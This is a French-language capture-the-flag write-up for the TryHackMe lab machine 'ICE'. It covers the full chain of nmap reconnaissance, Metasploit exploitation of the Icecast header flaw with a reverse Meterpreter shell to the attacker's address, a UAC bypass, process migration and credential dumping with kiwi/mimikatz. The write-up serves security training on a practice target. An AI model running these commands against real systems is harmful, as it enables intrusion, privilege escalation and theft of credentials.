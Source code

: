 # 📌 Write-Up : Machine ICE - TryHackMe

## 🖥️ Informations Générales
- **Nom de la machine** : ICE
- **Difficulté** : Facile
- **Adresse IP** : *(variable selon l'instance TryHackMe)*
- **Outils utilisés** : `nmap`, `gobuster`, `metasploit`, `mimikatz`
- **Objectif** : Obtenir un accès root et récupérer les flags

---

## 🕵️ Reconnaissance

### 🔎 Scan des ports avec Nmap

Ajout de la machine à `/etc/hosts` :
```bash
echo "10.10.165.196 ice" | sudo tee -a /etc/hosts
```

Scan des services :
```bash
nmap -sC -sV -oN nmap/initial ice
```

📌 Résultat pertinent :
```
PORT     STATE SERVICE
8000/tcp open  http Icecast streaming media server
135/tcp  open  msrpc Microsoft Windows RPC
139/tcp  open  netbios-ssn Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

Le port **8000** correspond à **Icecast**, un serveur de streaming.

---

## 🌍 Exploitation

### 📌 Vulnérabilité Icecast (CVE-2004-1561)

Dans Metasploit :
```bash
msfconsole
search icecast
use exploit/windows/http/icecast_header
set RHOSTS <ip_tryhackme>
set RPORT 8000
set LHOST <votre_ip_tun0>
set LPORT 4444
run
```

🎯 **Résultat** : Session Meterpreter obtenue !

---

## 🛠️ Escalade de Privilèges

### 🔑 Vérification des privilèges
```bash
getuid
sysinfo
```

### 📌 Exploits locaux
```bash
run post/multi/recon/local_exploit_suggester
```

Sélection de l'exploit `bypassuac_eventvwr` :
```bash
use exploit/windows/local/bypassuac_eventvwr
set SESSION 1
set LHOST <votre_ip_tun0>
run
```

Vérification :
```bash
getprivs
```

---

## 🎯 Post-Exploitation

### 📂 Migration de Processus
```bash
ps
migrate -N spoolsv.exe
```

### 🔑 Récupération des Identifiants
```bash
load kiwi
creds_all
```

---

## 🎉 Conclusion
- ✅ Scan initial avec **Nmap**
- ✅ Exploitation avec **Metasploit** (Icecast RCE)
- ✅ Escalade de privilèges avec **BypassUAC**
- ✅ Extraction de credentials avec **Kiwi**

🚀 **Machine compromise avec succès !**
